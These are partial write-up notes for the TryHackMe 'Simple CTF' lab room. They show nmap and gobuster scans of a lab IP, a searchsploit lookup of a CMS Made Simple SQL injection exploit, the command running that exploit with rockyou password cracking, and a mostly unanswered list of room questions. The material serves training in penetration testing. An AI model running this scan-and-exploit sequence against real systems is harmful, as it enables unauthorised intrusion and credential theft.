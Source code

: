 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`

```
# Found directory:
10.10.90.196/simple
# Navigate to directory and found: " This site is powered by CMS Made Simple version 2.2.8 "
```



#### search for exploits involving that CMS:

`searchsploit cms made simple`

```
CMS Made Simple < 2.2.10 - SQL Injection                                                               | php/webapps/46635.py
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`python2 exploit.py -u http://10.10.90.196/simple --crack -w /usr/share/wordlists/rockyou.txt`


---
#### Key:


Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH


Q: What's the CVE you're using against the application?

Q: To what kind of vulnerability is the application vulnerable?

Q: What's the password?

Q: Where can you login with the details obtained?

Q: What's the user flag?

Q: Is there any other user in the home directory? 

Q: What's its name?

Q: What can you leverage to spawn a privileged shell?